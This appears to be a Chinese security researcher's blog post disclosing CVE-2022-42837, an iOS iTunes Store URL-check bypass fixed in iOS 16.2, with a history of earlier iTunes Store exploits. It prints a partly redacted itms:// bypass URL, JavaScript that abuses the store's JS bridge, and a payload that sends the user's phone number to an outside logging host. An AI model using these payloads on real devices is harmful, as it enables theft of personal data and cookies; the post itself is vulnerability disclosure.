


之前有幸给 WMCTF 出题的时候，看 iTunes Store 相关代码发现存在 URL 校验不严格可被绕过的漏洞。导致用户点击一次恶意链接后，攻击者可以获取用户如手机号、Apple ID、iTunes Store 部分认证信息等敏感数据。提交 Apple 后在 iOS16.2 修复，并为该漏洞分配了 `CVE-2022-42837`。


为什么这里叫做 iTunes Store 之殇，是因为 iTunes Store App 任意 javascript 代码执行的漏洞已经被修了好几次了。

该漏洞由 Safari 浏览器 中的一个恶意页面引入，当你点击一个 URL Schemes 或 Universal Links 的链接时，可以通过这个特殊的 URL 调起指定 App 并传入攻击荷载。如果在 Safari浏览器中输入 `sms://` 可以调起信息 App，此时会有一个弹框询问是否允许打开。


但是一些内置的 Apple 应用程序是被 Safari 浏览器信任的，不会询问用户直接拉起，这些应用程序被硬编码在系统代码中：


早在 Pwn2Own 2014 年韩国黑客 lokihardt 通过一个特殊的 URL 在 iTunes Store 打开了任意的网页：

````html
<script>
location = 'itmss://attacker.com';
</script>
````

而 `itms://` 就是 iTunes Store 注册的 URL Scheme，由于应用程序白名单的缘故不需要向用户询问就可以直接在 iTunes Store 中打开恶意的网页。


此时结合一个 UAF 就完成了沙箱逃逸加任意代码执行。

后面苹果加入了域名限制，只有域名后缀满足 trustedDomains 域名列表时才会打开，但是 lokihardt 又找到了一个信任域的 DOM xss 又打了一次。


之后沉寂多年，在 2020 年天府杯上，cc 师傅凭借完整的 full chain exploit 远程破解了搭载 iOS14.2 的 iPhone11 设备。

而该漏洞利用链的第一步依然是从 Safari 到 iTunes Store，不利用内存破坏，不执行 shellcode，通过一个特殊的 URL 可以绕过域名白名单的校验执行任意的 javascript 代码，触发 xss 弹计算器。


感兴趣的朋友可以直接研读 cc 师傅的文章：[CVE-2021-1748：从客户端 XSS 到弹计算器](https://codecolor.ist/2021/08/04/mistuned-part-i/)


而今天要介绍的依然是 iTunes Store 的任意 javascript 代码执行。

iTunes Store 中有一段逻辑，当传入的 URL Scheme 中有一个特殊的参数时，应用就会忽略 URL 的 host，直接加载 URL Scheme 参数中的 URL 进行加载，比如：

`itms://<马赛克>&url=http://www.apple.com`

iTunes Store 在启动的时候会从 [这个 URL](https://init.itunes.apple.com/bag.xml?ix=6&os=13&locale=zh_CN) 拉取一个 XML 文件，XML 文件中的 trustedDomains 字段中预置了 Apple 的可信域名：



只有页面的主机名和 trustedDomains 字段的后缀匹配，该页面才会被允许在 iTunes Store 中打开。

域名校验在 `-[ISURLBag urlIsTrusted:]` 函数中，但是该函数的域名校验存在缺陷。当你传入的 URL 为 `http://@www.apple.com:@www.hacker.com` 时，iOS 系统在通过 `-[NSURL host]` 函数取 host 时会取到 `www.apple.com`，但是实际打开的页面却是 `www.hacker.com`。据了解在 Android 平台同样存在类似的问题。


所以我们就可以构造一个这样的 URL Scheme 来绕过域名校验打开一个任意的网页：

`itms://<马赛克>&url=http%3A%2F%2F%40www.apple.com%3A%40172.16.136.27:1024%2Fpoc.html`

该漏洞目前已于 iOS16.2 修复，不清楚可用最低版本，但是 iOS9 - iOS16.1.2 应该都是可用的。由于影响范围比较大，所以提供的 PoC 隐去了部分关键参数。

iTunes Store 打开网页使用的 SUWebView 通过  JavaScript bridge 注入了许多功能；SUWebView 将 SUScriptInterface 类的方法导出到 js 上下文中。这些 API 被放在全局作用域的 iTunes 命名空间里。


下面贴一些利用代码：

弹计算器：
```js
const app = iTunes.softwareApplicationWithBundleID_('com.apple.calculator');
app.launchWithURL_options_suspended_('calc://1337', {}, false);
```

获取用户手机号：
```js
var url = new URL('data:text/html;,%3Cscript%20type%3D%22application%2Fjavascript%22%3E%28function%20payload%28%29%20%7B%20%20%0A%20%20%20%20%20%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%20xhr.open%28%27GET%27%2C%20%27http%3A%2F%2Fhttplog.xxx.com%2Fhttplog%2Ftest%27%20%2B%20%27%3Fphone%3D%27%20%2B%20iTunes.telephony.phoneNumber%2C%20true%29%3B%20xhr.send%28%29%3B%0A%7D%29%28%29%3C%2Fscript%3E')
window.location = url
```
iTunes Store App 在代码中进行了限制，如果直接通过 iTunes.telephony.phoneNumber 来获取用户手机号会校验失败，需要通过 data Uri 来获取用户手机号。

另外在这个 WebView 中向任意域名发送请求，都会带上部分 iTunes Store cookie 信息：


例行弹计算器：


